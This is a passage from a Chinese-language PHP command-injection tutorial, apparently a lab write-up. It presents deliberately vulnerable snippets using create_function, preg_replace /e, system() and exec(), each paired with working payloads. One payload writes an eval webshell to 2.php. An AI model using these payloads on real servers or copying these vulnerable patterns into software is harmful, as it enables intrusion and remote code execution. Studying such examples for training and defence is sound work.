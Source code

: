> ?a=1;}system(%27ls%27);/\*

##### **E.g.10**

<?php  
show\_source(\_\_FILE\_\_);  
error\_reporting(0);  
$sort\_by = $\_GET\['sort\_by'\];  
$sorter = 'strnatcasecmp';  
$database = array('1234','4321');  
$sort\_function = ' return 1 \* ' . $sorter . '($a\["' . '"\] , $b\["' . $sort\_by . '"\]);';  
usort($database,create\_function('$a,$b',$sort\_function));  
?>

属于加强版本，**$sort\_function**的内容进行闭合，也就是**sort\_by**的参数值要实现闭合，构造payload:

> ?sort\_by=%27"\]);}system(%27whoami%27);/\*

![image-20220307182832977.png](https://www.hetianlab.com/headImg.action?news=5ef0f284-9d47-4004-bc5f-2101b16ef7a0.png)

##### **E.g.11**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[c\]";  
$b = preg\_replace("/abc/e",$a,'abcd');  
var\_dump($b);  
?>

虽然加了正则，但是并没有什么卵用，假把式，payload:

> ?c=system(%27ls%27);

##### **E.g.12**

<?php  
show\_source(\_\_FILE\_\_);  
$commandExecution = "echo ";  
echo "<br>";  
system($commandExecution.$\_GET\['a'\]);  
echo "<br>";  
?> 

payload

> ?a=<\\?php\\%20\\@eval($\_POST\[a\])\\;%20\\?>%20>2.php

一句话木马写入2.php

![image-20220307182905992.png](https://www.hetianlab.com/headImg.action?news=5c36e2d9-db34-4d77-965a-3d3b3d8ffd2f.png)

也有其它解法直接进行命令执行。

##### **E.g.13**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);   
$a = "$\_GET\[c\]";  
echo "<br>";  
exec($a,$b);  
var\_dump($b);  
?
